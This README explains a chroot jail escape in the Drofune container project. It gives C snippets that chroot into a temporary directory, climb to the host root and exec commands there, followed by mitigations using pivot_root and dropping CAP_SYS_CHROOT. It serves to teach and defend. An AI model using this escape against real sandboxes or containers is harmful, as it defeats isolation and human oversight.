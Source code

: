 # Chroot Jailbreak

Drofune uses chroot(2) to hide the host's file system from the container, but this can be jailbreaked according to known specifications.

According to man page of chroot(2):

> This call does not change the current working directory, so that after the call '.' can be outside the tree rooted at '/'.  In particular, the superuser can escape from a "chroot jail" by doing: mkdir foo; chroot foo; cd ..

## How does the exploit work?

Start a new container and invoking a shell. Then just run the exploit.

![How it works](how_it_works.gif)

First, create a temporary directory and chroot to it.

```c
char template[] = "chroot-jailbreak-XXXXXX";
char *dir = mkdtemp(template);
chroot(dir);
```

The important thing here is that the current directory is above the new chrooted root. Since chroot(2) is not nested, the first container's root disappears, and there is only the host's root directory after that.

Next, it continues to climb above the directory until the parent directory is not changed (i.e. it reaches the host's root).

```c
ino_t ino = 0;
while (1) {
  struct stat st;
  stat(".", &st)

  if (st.st_ino == ino) break;
  ino = st.st_ino;
  printf("Move to parent dir. current inode: %ld\n", st.st_ino);
  chdir("..");
}
```

Finally, chroot to the current directory and make the container root the host root. You have now escaped from the chroot jail.

```c
chroot(".");
printf("Escaped from chroot jail\n");

printf("Run commands in real root...\n");
execv(commands[0], commands);
```

## Mitigations

Starting a new container with `--pivot-root` option allows to mitigate the vulnerability. When this option is given, use pivot_root(2) instead of chroot(2).

![pivot_root Mitigation](pivot_root_mitigation.gif)

```c
if (ctx.pivot_root) {
  pivot_rootfs(rd);
} else {
  chrootfs(rd);
}
```

https://github.com/wata727/drofune/blob/1248279794e22d30df5175e08d0e19980954d5a3/run.c#L100-L108

pivot_root(2) moves the host's root to another directory (and that is [unmounted](https://github.com/wata727/drofune/blob/1248279794e22d30df5175e08d0e19980954d5a3/run.c#L270-L275)), so you cannot jailbreak in this way.

It is also good way to drop the `CAP_SYS_CHROOT` capability so that chroot cannot be run inside containers. You can try it with the `--drop-caps` option.

![Drop capabilities mitigation](drop_caps_mitigation.gif)

```c
prctl(PR_CAPBSET_DROP, CAP_SYS_CHROOT, 0, 0, 0);
```

https://github.com/wata727/drofune/blob/1248279794e22d30df5175e08d0e19980954d5a3/run.c#L110-L116
https://github.com/wata727/drofune/blob/1248279794e22d30df5175e08d0e19980954d5a3/drop_caps.c#L67-L73

In runc and crun, pivot_root(2) is adopted. chroot(2) is not restricted inside containers, but because it uses pivot_root(2), there is no fear of jailbreaking.

## References

- [Escaping a chroot jail/1](https://filippo.io/escaping-a-chroot-jail-slash-1/)
- [chroot されたディレクトリから脱出してみる](http://www.gcd.org/blog/2007/09/132/) (Japanese)
